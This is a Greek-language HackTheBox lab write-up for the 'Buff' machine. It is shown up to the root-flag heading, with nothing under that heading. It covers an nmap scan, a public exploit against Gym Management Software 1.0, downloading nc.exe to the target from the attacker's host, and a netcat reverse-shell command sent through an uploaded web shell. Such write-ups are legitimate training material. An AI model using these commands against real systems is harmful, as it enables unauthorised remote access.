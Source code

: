 ## [HTB] Hackthebox Buff machine writeup by dhmosfunk



![buff](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/buff.png?raw=true)<br>

[1.User flag]()

[2.Root flag]()




#### 1.User flag
- [x] MACHINE IP: 10.10.10.198 <br
Πρώτα απ όλα ξεκινάμε με ένα nmap scan για να δούμε τι ports τρέχουν στην IP.
```nmap -sV -sC -oA nmap/buff 10.10.10.198```
![buff](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/nmap%20scan.png?raw=true)

Όπως βλέπουμε στο scan μας τρέχει ενας webserver στο port 8080.
Ανοίγοντας το site στον browser και πηγαίνοντας στο contact.php θα βρούμε το software που τρέχει στον server(Που επίσης είναι outdated).

![outdatedsoftware](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/gymanagement.png?raw=true)

Με ενα google search βρίσκουμε το συγκεκριμένο exploit: [Gym Management Software 1.0 exploit](https://www.exploit-db.com/exploits/48506)

Το κάνουμε download και το τρέχουμε όπως δείχνω στην εικόνα

```python 48506.py http://10.10.10.198:8080/```
![exploit](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/shell.png?raw=true)

Και έχουμε shell!

Τώρα θέλουμε να κάνουμε ενα [reverse shell](https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/) που θα το κάνουμε με το netcat.

Πρώτα απο όλα πρέπει να βρούμε το netcat.exe και να το κάνουμε upload στο buff machine

![nc](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/nc.png?raw=true)

Μόλις βρούμε το netcat.exe δημιουργούμε ενα simplehttpserver με την python για να το “τραβήξουμε” στο buff machine
```python -m SimpleHTTPServer 9003 ```
![simplehttpserver](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/httpserver.png?raw=true)


Για να “τραβήξουμε” το nc.exe θα πρέπει να χρησιμοποιήσουμε το ‘wget’ όπως δείχνω παρακάτω
```powershell wget http://10.10.14.41:9009/nc.exe```
![uploadnc](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/uploadnc.png)


Ωραία μέχρι εδω..
Τώρα reverse shell.. Δημιουργούμε ενα listener στο kali machine
```nc -lvvnp 9003```
![nclistener](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/nc%20listen.png?raw=true)

Μόλις βάλουμε τον listener θα πρέπει να πάμε στον browser να τρέξουμε το command:
```10.10.10.198:8080/upload/kamehameha.php?telepathy=nc.exe 10.10.14.41 9003 -e cmd.exe```
![browservs](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/browser%20reverse%20shell.png?raw=true)

Και μετα βρίσκουμε το user.txt
![userflag](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/userflag.png?raw=true)

![userflag2](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/userflagtxt.png?raw=true)

Και πάμε για το root!








#### 2.Root flag
